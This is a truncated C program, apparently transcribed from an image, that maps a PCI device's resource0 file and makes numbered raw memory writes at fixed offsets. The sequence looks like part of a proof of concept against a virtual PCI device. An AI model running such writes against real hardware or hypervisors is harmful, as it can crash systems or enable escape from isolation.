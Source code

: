 
#define PRINT_ERROR \
    do { \
        fprintf(stderr, "Error at line %d, file %s (%d) [%s]\n", \
        __LINE__, __FILE__, errno, strerror(errno)); exit(1); \
    } while(0)

#define MAP_SIZE 4096UL
#define MAP_MASK (MAP_SIZE - 1)

int fd = -1;

char *filename = "/sys/devices/pci0000:00/0000:00:04.0/resource0";
void pcimem(uint64_t target, char access_type, uint64_t writeval) {
    /* Map one page */
    printf("mmap(%d, %ld, 0x%x, 0x%x, %d, 0x%x)\n", 0, MAP_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED, fd, (int) target);
    void *map_base = mmap(0, MAP_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED, fd, target & ~MAP_MASK);
    if(map_base == (void *) -1) PRINT_ERROR;
    printf("PCI Memory mapped to address 0x%08lx.\n", (unsigned long) map_base);
    uint64_t read_result;

    int type_width = 0;
    void *virt_addr = map_base + (target & MAP_MASK);
  switch(access_type) {
    case 'b':
      *((uint8_t *) virt_addr) = writeval;
      read_result = *((uint8_t *) virt_addr);
      type_width = 1;
      break;
    case 'h':
      *((uint16_t *) virt_addr) = writeval;
      read_result = *((uint16_t *) virt_addr);
      type_width = 2;
      break;
    case 'w':
      *((uint32_t *) virt_addr) = writeval;
      read_result = *((uint32_t *) virt_addr);
      type_width = 4;
      break;
    case 'd':
      *((uint64_t *) virt_addr) = writeval;
      read_result = *((uint64_t *) virt_addr);
      type_width = 8;
      break;
  }
  printf("Written 0x%0*lX; readback 0x%*lX\n", type_width, writeval, type_width, read_result);
    if(munmap(map_base, MAP_SIZE) == -1) PRINT_ERROR;
}


int main(int argc, char **argv) {
    off_t target;

    target = strtoul(argv[2], 0, 0);

    if((fd = open(filename, O_RDWR | O_SYNC)) == -1) PRINT_ERROR;
    printf("%s opened.\n", filename);
    printf("Target offset is 0x%x, page size is %ld\n", (int) target, sysconf(_SC_PAGE_SIZE));

  pcimem(0x060000, 'b', 0xd); // Step 1

  pcimem(0x000000, 'b', 0xd); // Step 2
  pcimem(0x010000, 'b', 0xd); // Step 2

  pcimem(0x100000, 'b', 0xd); // Step 3
  pcimem(0x200000, 'd', 0x131796d); // Step 4

  int i = 0;